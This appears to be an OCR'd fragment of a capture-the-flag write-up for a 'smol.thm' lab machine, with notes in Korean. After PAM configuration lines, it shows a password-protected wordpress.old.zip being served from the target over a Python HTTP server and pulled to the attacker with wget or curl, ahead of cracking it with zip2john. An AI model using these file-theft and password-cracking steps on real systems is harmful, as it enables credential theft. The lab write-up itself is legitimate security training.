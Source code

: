 ```bash

# Defines the MAIL environment variable
# However, userdel also needs MAIL_DIR and MAIL_FILE variables
# in /etc/login.defs to make sure that removing a user
# also removes the user's mail spool file.
# See comments in /etc/login.defs
#
# "nopen" stands to avoid reporting new mail when su'ing to another user
session    optional   pam_mail.so nopen

# Sets up user limits according to /etc/security/limits.conf
# (Replaces the use of /etc/limits in old login)
session    required   pam_limits.so

# The standard Unix authentication modules, used with
# NIS (man nsswitch) as well as normal /etc/passwd and
# /etc/shadow entries.
@include common-auth
@include common-account
@include common-session


think@ip-10-10-97-230:/home/gege$
```

# unzip wordpress.old.zip -> 암호화 걸림 -> 다운로드 필요

wordpress.old wordpress.old.zip
gege@ip-10-10-97-230:~$ unzip wordpress.old.zip
Archive: wordpress.old.zip
[wordpress.old.zip] wordpress.old/wp-config.php password:

# python3 -m http.server 8080 -> in target

[wordpress.old.zip] wordpress.old/wp-config.php password: gege@ip-10-10-97-230:~$ python3 -m http.server 8080
Serving HTTP on 0.0.0.0 port 8080 (http://0.0.0.0:8080/) ...

# attacker -> 공격자에서 요청 설치 -> 서버를 오픈했던 path 를 기반으로 설치할 파일 요청

wget http://www.smol.thm:8080/wordpress.old.zip

# wget 없을 때

curl -O http://smol.thm:8080/wordpress.old.zip

# zip2john
